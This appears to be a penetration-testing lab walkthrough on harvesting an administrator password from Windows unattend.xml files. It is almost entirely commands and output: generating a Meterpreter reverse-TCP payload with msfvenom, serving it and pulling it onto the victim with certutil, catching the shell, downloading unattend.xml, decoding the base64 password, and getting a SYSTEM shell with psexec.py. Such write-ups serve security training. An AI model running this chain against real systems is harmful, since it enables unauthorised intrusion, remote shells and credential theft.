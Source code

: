 # Searching for passwords in Windows configuration files

The unattended Windows setup utility will typically utilize one of the following configuration files:

* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Autounattend.xml

Kali-Machine:

```sh
root@attackdefense:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.26.2 LPORT=1234 -f exe>payload.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
root@attackdefense:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Victim:

```sh
C:\Users\student\Desktop>certutil -urlcache -f http://10.10.26.2/payload.exe payload.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

kali-machine:

```sh
msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.26.2
LHOST => 10.10.26.2
msf5 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.26.2:1234 
[*] Sending stage (201283 bytes) to 10.5.28.128
[*] Meterpreter session 1 opened (10.10.26.2:1234 -> 10.5.28.128:49780) at 2024-01-02 14:44:27 +0530

meterpreter > 

meterpreter > cd C:\\
meterpreter > cd Windows
meterpreter > cd Panther
meterpreter > dir
Listing: C:\Windows\Panther
===========================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100666/rw-rw-rw-  68        fil   2020-10-27 10:43:44 +0530  Contents0.dir
100666/rw-rw-rw-  12038     fil   2018-11-15 05:35:39 +0530  DDACLSys.log
100666/rw-rw-rw-  24494     fil   2020-10-27 10:43:44 +0530  MainQueueOnline0.que
40777/rwxrwxrwx   0         dir   2018-11-14 12:25:59 +0530  Unattend
40777/rwxrwxrwx   0         dir   2018-11-15 05:35:25 +0530  UnattendGC
40777/rwxrwxrwx   0         dir   2018-11-15 05:38:25 +0530  actionqueue
100666/rw-rw-rw-  2229      fil   2018-11-15 05:35:28 +0530  diagerr.xml
100666/rw-rw-rw-  4296      fil   2018-11-15 05:35:28 +0530  diagwrn.xml
100666/rw-rw-rw-  10006528  fil   2018-11-15 05:33:39 +0530  setup.etl
40777/rwxrwxrwx   0         dir   2018-11-15 05:35:28 +0530  setup.exe
100666/rw-rw-rw-  83991     fil   2018-11-15 05:35:28 +0530  setupact.log
100666/rw-rw-rw-  142       fil   2018-11-15 05:35:28 +0530  setuperr.log
100666/rw-rw-rw-  16640     fil   2020-10-27 10:43:04 +0530  setupinfo
100666/rw-rw-rw-  3519      fil   2020-10-29 10:29:18 +0530  unattend.xml

meterpreter > 

meterpreter > download unattend.xml
[*] Downloading: unattend.xml -> unattend.xml
[*] Downloaded 3.44 KiB of 3.44 KiB (100.0%): unattend.xml -> unattend.xml
[*] download   : unattend.xml -> unattend.xml

```

cat unattend.xml:

<pre class="language-sh"><code class="lang-sh">&#x3C;AutoLogon>
                &#x3C;Password>
<strong>                    &#x3C;Value>QWRtaW5AMTIz&#x3C;/Value> # base 64 encoded
</strong>                    &#x3C;PlainText>false&#x3C;/PlainText>
                &#x3C;/Password>
                &#x3C;Enabled>true&#x3C;/Enabled>
<strong>                &#x3C;Username>administrator&#x3C;/Username>
</strong>            &#x3C;/AutoLogon>
</code></pre>

```sh
root@attackdefense:~# echo "QWRtaW5AMTIz" > pass.txt
root@attackdefense:~# base64 -d pass.txt    
Admin@123
root@attackdefense:~# 
root@attackdefense:~# psexec.py Administrator@10.5.28.128 
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.5.28.128.....
[*] Found writable share ADMIN$
[*] Uploading file xrEEbfEL.exe
[*] Opening SVCManager on 10.5.28.128.....
[*] Creating service dZih on 10.5.28.128.....
[*] Starting service dZih.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
